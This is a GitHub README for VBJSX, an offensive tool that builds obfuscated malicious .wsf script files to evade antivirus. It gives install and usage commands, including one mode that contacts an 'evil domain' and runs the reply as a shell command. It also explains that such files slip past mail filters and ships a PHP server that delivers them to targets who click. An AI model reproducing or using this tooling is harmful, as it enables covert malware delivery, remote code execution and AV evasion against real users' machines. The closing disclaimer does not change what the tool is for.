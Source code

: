 # VBJSX
### Bypassing AV's with WSF files

_A Windows script (*.wsf) file is a text document containing Extensible Markup Language (XML) code. It incorporates several features that offer you increased scripting flexibility. Because Windows script files are not engine-specific, they can contain script from any Windows Script compatible scripting engine. They act as a container._

The mixed scripting languages will confuse most AV detection systems which allows an easy bypass.

By default the .wsf file-type gets executed by cscript which is available on most machines so no powershell is required.

---
This framework allows the easy creation of malicious wsf files, these files are invoked by VBScript and run payload functions in JSscript.


**Pros**
- Available on all systems since win9x
- Mixed scripting languages (hard to detect by AV systems)
- .wsf extension in PATHEXT so it gets executed on click
- Easy to execute shell commands, send http requests and invoke evil code

**cons**
- Pops up the CScript window (barely visible when using small code)

##Installing
```text
$ git clone https://github.com/stefan2200/VBJSX.git
$ cd VBJSX
$ python vbjsx.py
```
Generation works on all operating systems and does not require any special dependencies.

## Usage
```text
python vbjsx.py -o evil.wsf -c "cmd /C calc"
```
Open calc and exit (just double click the executable and it will run)
```text
python vbjsx.py -o evil_reverse.wsf -w -t template.example.js --cmd-ext
```
Send get request to evil domain and execute response as shell command.

_By default the strings inside functions (including the --posh-js-file code get obfuscated to evade AV signatures_

---
### Advanced usage
```text
Usage: vbjsx.py [options]

Options:
  -h, --help            show this help message and exit
  -o OUTPUT, --output=OUTPUT
                        Output to file (default: output.wsf)
  --no-obfuscate        Do not obfuscate strings (also disables obfuscation in
                        the POSH payload)
  -c CMD, --cmd=CMD     Run a command on the target system (enables cmd shell
                        extension)
  --cmd-ext             Enable CMD shell extension (useful for templates)
  -w, --web             Allows http(s) requests using Microsoft.XmlHTTP
  -p POSH, --posh-js-file=POSH
                        Path to PoshC2 DotNet2JS.js file (works great)
  -t TEMPLATE, --template=TEMPLATE
                        Custom Javascript template
  -v                    Print debug messages

  String options:
    --entry-point=JS_ENTRY
                        The Payload entry point (default: random)
    --shell-name=SHELL_ENTRY
                        Name of the shell module (default: shell)
    --http-name=HTTP_ENTRY
                        Name of the HTTP module (default: http)
    --vb-pointer=VB_CALLER
                        Name of VBCode main function (default: random)
    --job-name=WSF_JOB  Name of the WSF job (default: random)

```

### Advanced: serving the payload
Most mail filters will not block the script because the body is valid XML and the mime type is application/xml.
It also appears to be missing from most evil extension lists.

Additionally a server.example.php file is added to serve the file using PHP. 
After visiting the page the code will get automatically executed once a target clicks the downloaded file.



Like any exploitation tool, great power comes with great responsibility. Only use against yourself and targets you are allowed to pwn. I am not responsibly for any damage done by this tool.